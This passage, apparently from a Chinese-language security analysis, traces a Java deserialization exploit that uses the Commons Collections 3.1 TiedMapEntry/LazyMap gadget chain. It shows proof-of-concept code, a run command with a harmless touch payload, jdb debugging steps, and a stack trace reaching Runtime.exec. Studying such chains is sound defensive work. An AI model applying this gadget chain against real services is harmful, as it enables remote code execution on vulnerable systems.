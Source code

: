 ```java
        /*
         * 通过反序列化HashSet触发LazyMap.get()
         */
        ois.readObject();
    }
}
```

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
TiedMapEntryExecWithHashSet "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] org.apache.commons.collections.keyvalue.TiedMapEntry.getValue (TiedMapEntry.java:73), pc = 8
  [10] org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode (TiedMapEntry.java:120), pc = 1
  [11] java.util.HashMap.hash (HashMap.java:339), pc = 9
  [12] java.util.HashMap.put (HashMap.java:612), pc = 2
  [13] java.util.HashSet.readObject (HashSet.java:342), pc = 215
  [14] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [15] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [16] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [17] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [18] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,170), pc = 24
  [19] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:2,177), pc = 119
  [20] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:2,068), pc = 183
  [21] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,572), pc = 401
  [22] java.io.ObjectInputStream.readObject (ObjectInputStream.java:430), pc = 19
  [23] TiedMapEntryExecWithHashSet.main (TiedMapEntryExecWithHashSet.java:123), pc = 361

8.4.6) 简化版调用关系

--------------------------------------------------------------------------
ObjectInputStream.readObject
  HashSet.readObject
    HashMap.put
      HashMap.hash
        TiedMapEntry.hashCode   // 此处开始TiedMapEntry利用链
          TiedMapEntry.getValue
            LazyMap.get         // 此处开始LazyMap利用链
--------------------------------------------------------------------------
